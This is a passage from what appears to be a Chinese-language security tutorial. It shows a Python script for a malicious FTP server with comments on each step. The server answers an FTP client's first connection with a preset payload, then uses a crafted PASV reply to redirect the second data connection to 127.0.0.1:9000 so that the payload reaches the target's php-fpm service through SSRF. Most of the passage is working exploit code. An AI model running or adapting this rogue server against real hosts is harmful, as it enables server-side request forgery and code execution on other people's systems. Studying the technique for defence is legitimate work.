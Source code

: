 ```plain
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

运行上述脚本，一个恶意 ftp 服务就起来了：

[![](assets/1698897074-10e494ce4e8f629181a45e21373a483a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9253cd1c-b2e5-1.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。

